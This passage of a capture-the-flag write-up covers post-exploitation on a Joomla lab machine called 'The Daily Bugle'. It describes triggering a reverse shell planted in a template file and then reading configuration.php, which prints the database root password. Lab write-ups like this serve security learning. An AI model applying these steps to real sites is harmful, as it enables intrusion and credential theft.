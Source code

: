 !["joomla-hook-template-shell.png"](files/joomla-hook-template-shell.png).

Now browse http://10.10.233.69/templates/beez3/index.php and you should get a reverse shell.

First thing on the server was to list the homes, find users (`jjameson` is the only user in `/home`), and try to find `user.txt` (common name for user flag). No luck.

Then, I inspected the `/var/www/html/` directory and extracted the following information from the `configuration.php` file, which reveals the password for the database.

~~~
sh-4.2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
[REDACTED]
~~~
